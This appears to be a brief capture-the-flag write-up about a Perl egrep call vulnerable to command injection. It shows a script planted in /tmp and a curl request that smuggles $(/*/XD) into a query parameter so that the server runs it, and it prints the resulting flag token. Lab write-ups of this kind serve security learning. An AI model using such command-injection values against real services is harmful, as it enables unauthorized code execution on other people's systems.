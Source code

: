 >   @output = `egrep "^$xx" /tmp/xd 2>&1`;

we can inject a command here via the query params
we just need to prepare a binary in uppercase with the following code the get the flag


in /tmp create a file in uppercase (here XD)
`touch /tmp/XD`

> #!/bin/sh
>
> getflag > /tmp/ok

then curl the http server with
`curl "localhost:4646/?x=\$(/*/XD)"`

> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

